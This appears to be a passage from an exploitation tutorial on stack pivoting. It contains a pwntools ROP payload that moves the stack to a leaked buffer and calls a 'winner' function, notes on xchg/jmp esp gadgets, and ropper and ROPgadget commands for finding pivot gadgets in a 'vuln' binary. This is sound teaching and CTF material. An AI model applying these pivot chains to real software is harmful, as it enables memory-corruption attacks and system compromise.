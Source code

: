 ```python
payload = flat(
    0,                 # r13
    0,                 # r14
    0,                 # r15
    POP_RDI,
    0xdeadbeef,
    POP_RSI_R15,
    0xdeadc0de,
    0x0,               # r15
    elf.sym['winner']
)

payload = payload.ljust(104, b'A')     # pad to 104

# Start popping RSP, this moves the stack to the leaked address and
# continues the ROP chain in the prepared payload
payload += flat(
    POP_CHAIN,
    buffer             # rsp
)

pause()
p.sendline(payload)
print(p.recvline())
```

### xchg <reg>, rsp gadget

```
pop <reg>                <=== return pointer
<reg value>
xchg <reg>, rsp
```

### jmp esp

Check the ret2esp technique here:

[[../rop-return-oriented-programing/ret2esp-ret2reg.md]]

### Finding pivot gadgets quickly

Use your favorite gadget finder to search for classic pivot primitives:

- `leave ; ret` on functions or in libraries
- `pop rsp` / `xchg rax, rsp ; ret`
- `add rsp, <imm> ; ret` (or `add esp, <imm> ; ret` on x86)

Examples:

```bash
# Ropper
ropper --file ./vuln --search "leave; ret"
ropper --file ./vuln --search "pop rsp"
ropper --file ./vuln --search "xchg rax, rsp ; ret"

# ROPgadget
ROPgadget --binary ./vuln --only "leave|xchg|pop rsp|add rsp"
```
